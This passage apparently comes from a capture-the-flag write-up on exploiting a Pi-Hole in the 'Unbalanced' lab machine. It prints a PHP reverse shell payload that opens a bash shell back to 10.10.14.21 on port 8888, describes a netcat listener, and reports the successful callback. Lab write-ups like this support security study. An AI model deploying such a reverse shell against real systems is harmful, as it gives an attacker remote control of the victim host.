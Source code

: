 The reverse shell payload is provided below:

```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.21/8888 0>&1'");
?>
```

In addition to the above commands, I also needed to create a new netcat listener on port 8888 in order to interact with the reverse shell --  The image below shows the sequence of HTTP requests:

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Unbalanced/img8.png"  style="width: 70%" />
</p>

Once the requests were submitted, the Pi-Hole was successfully exploited and I received a connection back from the host as shown below:

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Unbalanced/img9.png"  style="width: 70%" />
</p>

